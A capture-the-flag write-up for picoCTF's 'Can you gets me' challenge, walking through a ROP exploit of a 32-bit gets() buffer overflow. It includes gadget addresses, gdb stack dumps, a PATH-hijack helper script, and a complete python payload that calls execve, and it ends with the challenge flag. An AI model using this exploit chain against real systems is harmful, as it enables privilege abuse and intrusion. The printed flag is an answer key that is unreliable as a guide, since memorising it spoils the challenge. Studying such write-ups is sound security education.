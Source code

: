 # CorCan you gets me ?

>Can you exploit the following program to get a flag?
>You may need to think return-oriented if you want to program your way to the flag.
>You can find the program in /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d on the shell server. Source.

### [~$ cd ..](../)

We are given the source of a vulnerable program, as well as the binary:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 16
>
>void vuln() {
>	char buf[16];
>	printf("GIVE ME YOUR NAME!\n");
>	return gets(buf);
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>	vuln();
>
>}
> ```

**TL; DR: It's a classical ROP attack**

## The payload

Knowing that the ASLR is enabled, that the stack is not executable and according to the simplicity of this program, we guessed, and it was confirmed
by a hint, that we had to exploit it using a Return-Oriented-Programming.

What is this ?

ROP-attack is a well-known and powerful way to exploit binaries, which is able to bypass ASLR and doesn't require any shellcode. The idea is quite simple: by chaining
some small groups of instructions, whe can build a valid longest series of instructions which can finally behave like a shellcode. These small groups are called "gadgets", and
they have to end with the instruction `ret`. Therefore, we can easily chain them on the top of the stack.

To find these gadgets, we used to 0vercl0k's tool: [rp](https://github.com/0vercl0k/rp/downloads)

Well, but which gadgets do we need ?
The man idea is to execute something like `execve("/bin/sh", NULL, NULL)`. To succeed, with then need to have the following values:
* `$eax=0xb`, 0xb begin the syscall code we expect
* `$ebx` contains the address of "/bin/sh"
* `$ecx=NULL` the arguments to pass to the command (don't care)
* `$edx=NULL` the address of the environment variables (don't care)

To obtain the expected setting, we will push the values onto the stack and then pop them into registers. The outline of the payload is therefore:

* fill the buffer
* @gadget(pop eax; ret)
* 11
* @gadget(pop ebx; ret)
* @"/bin/sh"
* @gadget(pop ecx; ret)
* 0
* @gadget(pop edx; ret)
* 0
* interrupt

Indeed, these values will be placed on the top of the stack as `vuln` ends, that's the reason why we need to pop them.

### Address of "/bin/sh"

"/bin/sh" doesn't appear in the program, and we have to find a way to execute the expected command. To get around the problem, we decided to create our own command
and to use a constant string in `rodata`:

> ```sh
>% readelf -x .rodata ./gets|head -n 20
>
>Vidange hexadécimale de la section « .rodata » :
>0x080bb320 03000000 01000200 47495645 204d4520 ........GIVE ME
>0x080bb330 594f5552 204e414d 4521002e 2e2f6373 YOUR NAME!.../cs
>0x080bb340 752f6c69 62632d73 74617274 2e630046 u/libc-start.c.F
>0x080bb350 4154414c 3a206b65 726e656c 20746f6f ATAL: kernel too
>0x080bb360 206f6c64 0a000000 5f5f6568 64725f73  old....__ehdr_s
>0x080bb370 74617274 2e655f70 68656e74 73697a65 tart.e_phentsize
>0x080bb380 203d3d20 73697a65 6f66202a 474c2864  == sizeof *GL(d
>0x080bb390 6c5f7068 64722900 46415441 4c3a2063 l_phdr).FATAL: c
>0x080bb3a0 616e6e6f 74206465 7465726d 696e6520 annot determine
>0x080bb3b0 6b65726e 656c2076 65727369 6f6e0a00 kernel version..
>0x080bb3c0 756e6578 70656374 65642072 656c6f63 unexpected reloc
>0x080bb3d0 20747970 6520696e 20737461 74696320  type in static
>0x080bb3e0 62696e61 72790000 67656e65 7269635f binary..generic_
>0x080bb3f0 73746172 745f6d61 696e002f 6465762f start_main./dev/
>0x080bb400 66756c6c 002f6465 762f6e75 6c6c0000 full./dev/null..
>0x080bb410 7365745f 74687265 61645f61 72656120 set_thread_area
>0x080bb420 6661696c 65642077 68656e20 73657474 failed when sett
>0x080bb430 696e6720 75702074 68726561 642d6c6f ing up thread-lo
> ```

It's important here to choose a string ending with a null byte. We choose here the string "ull" located at `0x080bb40b`. We then had to create
a script named "ull" executing the expected command (i.e `cat` the flag)

## Find gadgets

We then used the program `rp-lin-x86` to find the expected gadgets:

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop eax"
>0x080d244e: pop eax ; call dword [edi+0x4656EE7E] ;  (1 found)
>0x0809ca62: pop eax ; jmp dword [eax] ;  (4 found)
>0x080b81c6: pop eax ; ret  ;  (1 found)
>```

Gadget `pop $eax`: **0x080b81c6**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ebx"
>0x080505a3: pop ebx ; jmp eax ;  (6 found)
>0x0804cec7: pop ebx ; rep ret  ;  (1 found)
>0x080481c9: pop ebx ; ret  ;  (181 found)
>0x080d353c: pop ebx ; retn 0x06F9 ;  (1 found)
> ```

Gadget `pop $ebx`: **0x080481c9**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ecx"
>0x080de955: pop ecx ; ret  ;  (1 found)
> ```

Gadget `pop $ecx`: **0x080de955**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop edx"
>0x0806f02a: pop edx ; ret  ;  (2 found)
> ```

Gadget `pop $edx`: **0x0806f02a**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "int 0x80"
>0x0806cc23: add byte [eax], al ; int 0x80 ;  (3 found)
>0x0806cc25: int 0x80 ;  (8 found)
>0x0806f630: int 0x80 ; ret  ;  (1 found)
>0x0806cc20: mov eax, 0x00000001 ; int 0x80 ;  (1 found)
>0x0807a9d9: mov eax, 0x00000077 ; int 0x80 ;  (1 found)
>0x0807a9d0: mov eax, 0x000000AD ; int 0x80 ;  (1 found)
>0x0806f62f: nop  ; int 0x80 ;  (1 found)
>0x0806cc1f: or byte [eax+0x00000001], bh ; int 0x80 ;  (1 found)
>0x080b6ed7: push es ; int 0x80 ;  (1 found)
> ```

Gadget `pop $edx`: **0x0806f630**

And finally, the payload becomes:

* 0x080b81c6 ;pop eax
* 0x0000000b ;execve syscall
* 0x080481c9 ;pop ebx
* 0x080bb40b ;"ull"
* 0x080de955 ;pop ecx
* 0x00000000 ;NULL
* 0x0806f02a ;pop edx
* 0x00000000 ;NULL
* 0x0806f630 ;interrupt

## Fill the buffer

By sending some 'A's and breaking after the call the `gets`, we can see that 28 bytes are needed to fill the buffer:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd198	0xffffd198
>gdb-peda$ x/30wx $esp
>0xffffd170:	0xffffd180	0x080eaf84	0x00000000	0x080481a8
>0xffffd180:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd190:	0x41414141	0x00000300	0xffffd1b8	0x080488e9
>0xffffd1a0:	0x080ea00c	0x00000045	0x00001000	0x000003e8
>0xffffd1b0:	0x080ea070	0xffffd1d0	0x00001000	0x08048b21
>0xffffd1c0:	0x080ea00c	0x00000045	0x00001000	0x08048b21
>0xffffd1d0:	0x00000001	0xffffd294	0xffffd29c	0xffffd1f4
>0xffffd1e0:	0x00000000	0x00000001
> ```

Let's feed the stdin with the payload and break at the end of `vuln`:

> ```
>gdb-peda$ x/12wx $esp
>0xffffd19c:	0x080b81c6	0x0000000b	0x080481c9	0x080bb40b
>0xffffd1ac:	0x080de955	0x00000000	0x0806f02a	0x00000000
>0xffffd1bc:	0x0806f630	0x080ea000	0x00000045	0x00001000
> ```

Perfect!

## Exploit

Since the command "ull" is not a regular command we need to create it:

```bash
% cd /tmp
% nano ull
	#!/bin/sh
	cat /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/flag.txt
% chmod +x ull
% export PATH=/tmp:$PATH
% python -c "print 'A' * 28 + '\xc6\x81\x0b\x08\x0b\x00\x00\x00\xc9\x81\x04\x08\x0b\xb4\x0b\x08\x55\xe9\x0d\x08\x00\x00\x00\x00\x2a\xf0\x06\x08\x00\x00\x00\x00\x30\xf6\x06\x08'" | /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/gets
```

FLAG: **picoCTF{rOp_yOuR_wAY_tO_AnTHinG_700e9c8e}**
